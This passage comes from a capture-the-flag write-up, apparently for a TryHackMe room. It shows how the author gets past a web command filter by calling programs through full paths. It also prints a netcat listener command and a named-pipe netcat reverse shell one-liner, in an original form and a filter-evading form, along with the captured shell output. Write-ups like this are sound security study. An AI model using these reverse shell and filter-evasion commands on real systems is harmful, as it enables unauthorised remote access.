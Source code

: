 So, there are certain commands that I can and cannot run. I spent a while experimenting with different commands.

I found that while I could not run **ls**, I could run **/bin/ls**. So I could find files that way. In general, if I was usually not allowed to run a program, if type in it's full location, it would work: I.E. **cat file** would not work, but **/bin/cat file** would work.

So, now that I know how to bypass the filter on the command box, I can try for a reverse shell.

I first set up the listener on port 4444 of my attacking machine:
	
```
sudo nc -vnlp 4444
```

I then tried out a few reverse shell scripts from [HighOnCoffe](https://highon.coffee/blog/reverse-shell-cheat-sheet/#netcat-reverse-shell), this is the one that worked for me:
	
#### Original Script:
```
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

#### Modified Script (To get past filters):
```
mkfifo /tmp/lol;<span style="color:red">/bin/</span>nc <span style="color:red">{THM_VPN_IP}</span> <span style="color:red">4444</span> 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

And now we have a shell!

```
Listening on 0.0.0.0 4444
Connection received on 10.10.252.149 45436
/bin/sh: 0: can't access tty; job control turned off
$
```

I'll be honest here, I looked and looked for the User Flag. I couldn't find it. So, to be sure that I wasn't missing anything, I ran the nuclear option:
	
I moved to the root directory and ran:
	
```
grep -irnw -P '\.{9}:.{32}\}' 2>/dev/null
```

I looked at the pattern of the User Flag in the room: It was a open-curly-brace({) followed by 9 characters, then a ":", followed by 32 characters.

At first, I tried to run the pattern as described, but I was still getting a bunch of matches. So I went with the assumption that the first 9 characters is probably "user(something)flag", so I listed the first section as "user(something)flag". This took a long time to run.

After a while scanning from the root directory, I decided that it was taking too long. I shut the scan down. I then tried the scan from the **/home** and **/var/www** directories, those did not find anything. I was satisfied that I could not find the user flag without getting user account control.

I moved to the **/home** directory, and ran **ls**:
	